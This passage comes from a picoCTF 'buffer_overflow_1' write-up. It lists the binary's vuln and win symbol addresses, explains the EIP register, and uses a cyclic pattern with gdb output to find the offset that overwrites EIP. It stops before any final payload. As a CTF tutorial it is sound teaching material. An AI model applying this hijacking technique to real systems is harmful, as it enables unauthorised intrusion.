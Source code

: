 More precisely : 

```
...
08049281 T vuln
080491f6 T win
080493c5 T __x86.get_pc_thunk.bp
...
```
This address will help us specify to the `eip` pointer where to jumb back (contexte restetution) after finishing with the `vuln` function.

**Note :** EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.

 - **Number of characters needed to overwrite pointers:** Next thing to do is to get the number of characters needed to overwrite the `eip` pointer, to do that we will use `gdb` and `cyclyc` tools :

Fist, generate and random length string using `cyclic 50`. Note that the given lengh is bigger then the read buffer size

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

After that, we run the `vuln` binary in `gdb` and give it our generated string. Notice in the `eip` pointer the string part specified as nesxt instruction address : 

```
Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0x0       
$edx   : 0xf7fc0500  →  0xf7fc0500  →  [loop detected]
$esp   : 0xffffcf20  →  0xff00616d ("ma"?)
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0xffffd004  →  0xffffd1c9  →  "/home/rivench/Documents/picoCTF/buffer_overflow_1/[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xff00616d ("ma"?)   ← $esp
0xffffcf24│+0x0004: 0xf7fbf66c  →  0xf7ffdba0  →  0xf7fbf780  →  0xf7ffda40  →  0x00000000
0xffffcf28│+0x0008: 0xf7fbfb10  →  0xf7c1ac8a  →  "GLIBC_PRIVATE"
0xffffcf2c│+0x000c: 0x000003e8
0xffffcf30│+0x0010: 0xffffcf50  →  0x00000001
0xffffcf34│+0x0014: 0xf7e20ff4  →  0x00220d8c
0xffffcf38│+0x0018: 0xf7ffd020  →  0xf7ffda40  →  0x00000000
0xffffcf3c│+0x001c: 0xf7c213b5  →   add esp, 0x10
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```